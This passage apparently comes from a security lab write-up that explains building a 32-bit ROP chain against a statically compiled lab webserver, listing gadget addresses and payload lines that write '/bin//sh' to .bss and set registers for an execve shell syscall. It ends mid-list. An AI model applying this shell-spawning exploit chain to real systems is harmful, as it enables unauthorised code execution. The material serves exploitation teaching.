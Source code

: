 # # execve () ROP

- compilation with `-static` flag;
- stack-protectors disabled;
- ASLR enabled.

Starting from the previous labs, the following ROP Chain has been created which allows you to run the `execve (" / bin / sh ", 0, 0)` systemcall.

The ROP Chain was built using only gadgets present in the binary in order to evade the ASLR (the program was compiled with the `-static` flag to increase the quantity of gadgets present, being of a smaller size).

To identify the gadgets used it is possible to use `objdump` or` RopGadget` (https://github.com/JonathanSalwan/ROPgadget), also available in GDB peda.

The `gadgets` file shows the complete list of the gadgets present.

NOTE: by default, the pre-compiled `tiny-lab3-precomp` version of the webserver is included in order to keep the same addresses in the writeup as a reference. Alternatively, you can uncomment the `# RUN make` line to recompile the server.

## ROP Chain development

### Target

Run syscall `execve (" / bin / sh ", 0, 0)` - whose number is `0xb` - to run shell.

It is therefore necessary:
- `eax = 0xb`:` eax` containing syscall number to be made once made
  interrupt `int 0x80`;
- `ebx`: will have to point to the start memory address of the string" / bin / sh ";
- `ecx`: used to point to argument arrays; not used in this case, so its
  value will be `0x0`;
- `edx`: used to put to environment veritable arrays; not used in this case,
  so it will be `0x0`.
- find and use gadgets with `int 0x80` to make system call.

### Description of gadgets used

#### Writing "/ bin / sh" into memory

First the string "/ bin / sh" was written in memory, in order to reuse it later (EBX will have to point to the beginning of the string).

The gadgets and values ​​used in this regard:

`` `
pop_edx = 0x0807662a # pop edx; ret
pop_eax = 0x080bc865 # pop eax; ret
mov_mem = 0x080562ab # mov dword ptr [edx], eax; ret


write_1 = 0x080f1010 # .bss start address
write_2 = 0x080f1014 # .bss start address + 4
`` `

`write_1` is the chosen memory address where to start writing" / bin / sh "; was chosen
the beginning of the `.bss` section as writable and to avoid overwriting
the `.text` section.

In `write_1` the first 4 bytes" / bin "will be written, while in` write_2` the second part
"// sh" ("// sh" was written to avoid null bytes; at bash level the first "/" will be ignored).

Writing chain "/ bin / sh":
`` `
payload + = p (pop_edx) # EDX will point to .bss start
payload + = p (write_1)
payload + = p (pop_eax) # writes "/ bin" in EAX
payload + = "/ bin"
payload + = p (mov_mem) # moves EAX = "/ bin" at address pointed by EDX (.bss start)
payload + = p (pop_edx)
payload + = p (write_2) # EDX will point at .bss start + 4
payload + = p (pop_eax) # writes "// sh" in EAX
payload + = "// sh"
payload + = p (mov_mem) # moves EAX = "// sh" at address pointed by EDX (.bss start + 4)
`` `

First, `pop_edx` was used to insert` write_1` in `edx` (` pop edx`).

The chain continues by jumping to the `pop_eax` gadget (thanks to the` ret` which inserts the address of the next gadget
on the PC) through which the string "/ bin" is written in the `eax` register.

The third element of the chain is `mov_mem`, which allows you to write the content of` eax` in the address pointed to by `edx`, or` write_1`. In this way the first
part of "/ bin / sh" will be written in the selected memory section.

The chain continues in a similar way to write "// sh", using the same gadgets.

At the end of the chain "/ bin / sh" will be written to the memory address `write_1`.

#### EDX = 0 and EBX -> "/ bin // sh"

`` `
xor_eax = 0x0804a3c3 # xor eax, eax; ret
xor_edx = 0x08098280 # xor edx, edx; div esi; pop ebx; pop esi; pop edi; pop ebp; ret

`` `

Chain used:
`` `
payload + = p (xor_eax) # EAX = 0
payload + = p (xor_edx) # EDX = 0; EBX = address of "/ bin // sh"
payload + = p (write_1)
payload + = "JUNK" * 3
`` `

the `xor_edx` gadget was used to reset the` edx` registry. However, the presence
of the `div esi` instruction makes it necessary to clear the` eax` register first as the instruction
performs the division between `eax` and` esi`, putting the result in `eax` and the rest of the division
in `edx`.

So, by setting `eax = 0x0` first, the result of the division will be 0 with remainder 0 and
and both the `eax` and` edx` registers will contain `0x0`.

Furthermore, in the `xor_edx` gadget there is the` pop ebx` instruction, which will be used to insert
the `write_1` address (which contains" / bin // sh ") in the` ebx` register.

#### ECX = 0

`` `
mov_ecx = 0x0805e319 # mov ecx, edx; rep stosb byte ptr es: [edi], al; mov eax, dword ptr [esp + 8]; pop edi; ret

`` `

Chain used:
`` `
payload + = p (mov_ecx) # ECX = 0
payload + = "JUNK"
`` `

the `mov_ecx` gadget was used to copy the contents of` edx` to `ecx`, that is` 0x0`.

#### EAX = 0xb

`` `
pop_edx = 0x0807662a # pop edx; ret
pop_eax = 0x080bc865 # pop eax; ret
sub_eax = 0x080562dc # sub eax, edx;
